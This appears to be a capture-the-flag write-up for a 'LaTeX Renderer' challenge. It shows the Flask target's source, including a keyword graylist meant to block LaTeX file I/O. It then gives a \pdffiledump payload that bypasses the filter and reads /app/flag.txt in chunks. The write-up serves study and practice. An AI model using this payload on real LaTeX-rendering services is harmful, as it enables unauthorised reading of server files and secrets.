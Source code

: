 # LaTeX Renderer

<figure><img src="../../../../../../.gitbook/assets/image (7).png" alt=""><figcaption><p>Flag @ /app/flag.txt</p></figcaption></figure>

### Source code



```python
import os
import re
import subprocess
from flask import Flask, request, send_file
import random
import string

app = Flask(__name__)


graylist = [
    "^^",
    "afterassignment",
    "aftergroup",
    "batchmode",
    "catcode",
    "closein",
    "closeout",
    "command",
    "document",
    "def",
    "errhelp",
    "errcontextlines",
    "errorstopmode",
    "every",
    "expand",
    "expandafter",
    "immediate",
    "include",
    "input",
    "jobname",
    "loop",
    "lowercase",
    "makeat",
    "meaning",
    "message",
    "named",
    "newhelp",
    "noexpand",
    "nonstopmode",
    "open",
    "output",
    "pagestyle",
    "package",
    "pathname",
    "read",
    "relax",
    "repeat",
    "shipout",
    "show",
    "scrollmode",
    "special",
    "syscall",
    "toks",
    "tracing",
    "typeout",
    "typein",
    "uppercase",
    "write",
]

wrapper = "\\documentclass[12pt]{article}\n\\usepackage[latin1]{inputenc}\n\\usepackage{amsmath}\n\\usepackage{amsfonts}\n\\usepackage{amssymb}\n\\usepackage[mathscr]{eucal}\n\\pagestyle{empty}"


def generate_random_string(length=5):
    """Generate a random string of a specified length."""
    letters = string.ascii_letters + string.digits
    return "".join(random.choice(letters) for _ in range(length))


@app.route("/", methods=["GET"])
def index():
    return "Welcome Hacker! go grab your easy win."


@app.route("/render", methods=["GET"])
def render_latex():
    try:
        latex = request.args.get("latex", "")

        for word in graylist:
            if word in latex:
                return {"error": f"Graylist word detected."}, 403

        latex = wrapper + "\n\\begin{document}\n" + latex + "\n\\end{document}"
        rand = generate_random_string()
        path = f"temp_{rand}"
        with open(f"{path}.tex", "w") as f:
            f.write(latex)

        subprocess.run(["latexmk", "-pdf", "-interaction=nonstopmode", f"{path}.tex"])

        return send_file(
            f"{path}.pdf", as_attachment=True, download_name="rendered_pdf.pdf"
        )

    except Exception:
        return {"error": "hmm amigo.."}, 500


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

### Payload



This task has filters that fobid us from reach I/O functions of LATEx

but \pdffiledump isn't graylisted

Crafting the payload&#x20;

<pre class="language-latex"><code class="lang-latex"><strong>\pdffiledump offset 0 length 1000 {/app/flag.txt}
</strong></code></pre>

<figure><img src="../../../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we got a part of the flag we need the missing piece

<figure><img src="../../../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Part II payload , added offset

```latex
\pdffiledump offset 30 length 1000 {/app/flag.txt}
```

<figure><img src="../../../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Boom

<figure><img src="../../../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

